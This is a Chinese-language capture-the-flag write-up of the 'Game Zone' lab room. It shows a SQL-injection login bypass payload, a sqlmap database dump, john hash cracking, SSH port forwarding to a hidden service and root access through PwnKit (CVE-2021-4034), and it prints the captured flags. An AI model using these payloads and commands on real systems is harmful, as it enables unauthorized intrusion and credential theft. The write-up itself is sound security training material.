 # Game Zone

本房间将介绍SQLi（手动或通过SQLMap利用此漏洞），破解用户散列密码，使用SSH隧道揭示隐藏的服务以及使用metasploit有效负载获得root权限。

---

循例 nmap扫，只开22和80

看web，一个怀念版的游戏登录界面

随手试了一下：

    admin' or '1'='1'#

进去了

一个搜索页面，按照题目的要求，这里使用sqlmap

开启burp，正常发起搜索，然后在burp将该请求的信息导出到文件

使用sqlmap

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">sqlmap</font> <font color="#9755B3">-r</font> <u style="text-decoration-style:single">./req.txt</u> <font color="#9755B3">--dbms=mysql</font> <font color="#9755B3">-dump</font>
</pre>

john爆破hash密码

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">john</font> <font color="#9755B3">--wordlist=/usr/share/wordlists/rockyou.txt</font> <u style="text-decoration-style:single">./hash</u> <font color="#9755B3">--format=raw-sha256</font></pre>

登录ssh成功

<pre><font color="#47D4B9"><b>agent47@gamezone</b></font>:<font color="#277FFF"><b>~</b></font>$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
</pre>

---

知识点:

<img src="https://i.imgur.com/cYZsC8p.png" />

    反向 SSH 端口转发指定将远程服务器主机上的给定端口转发到本地端的给定主机和端口。

    -L 是一个本地隧道（你< - 客户端）。如果站点被阻止，您可以将流量转发到您拥有的服务器并查看它。例如，如果 imgur 在工作中被阻止，你可以执行 ssh -L 9000：imgur.com：80 user@example.com。 转到计算机上的localhost：9000，将使用其他服务器加载imgur流量。

    -R 是一个远程隧道（YOU --> CLIENT）。您将流量转发到其他服务器供其他人查看。与上面的例子类似，但相反。

.

    我们将使用一个名为 ss 的工具来调查主机上运行的套接字。

    如果我们运行 ss -tulpn，它会告诉我们正在运行哪些套接字连接

    论点	描述
    -t	显示 TCP 套接字
    -u	显示 UDP 套接字
    -l	仅显示侦听套接字
    -p	显示使用套接字的进程
    -n	不解析服务名称

ss -tulpn

发现有个tcp 10000端口开启

在目标上使用curl能够得知其服务是web，但是似乎被防火墙拦截了，该端口无法被外网访问。

我们使用该ssh用户进行流量转发

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">ssh</font> <font color="#9755B3">-L</font> 8888:127.0.0.1:10000 agent47@10.10.200.149</pre>

将我们本地的8888端口流量通过ssh转发到目标的10000端口

访问我们本地的8888端口，看见是一个登录页面

我们已知的就是agent47的ssh登录凭据，尝试登录，成功

---

题目要求我们寻找cms的cve，但我偏不

我使用了pwnkit(CVE-2021-4034) 对pkexec的利用

<pre><font color="#47D4B9"><b>agent47@gamezone</b></font>:<font color="#277FFF"><b>~</b></font>$ ./PwnKit 
root@gamezone:/home/agent47# whoami
root
root@gamezone:/home/agent47# cat /root/root.txt
a4b945830144bdd71908d12d902adeee
</pre>

看到ubuntu版本为16.04，我猜可能还存在cve-2021-3493 overlayfs利用

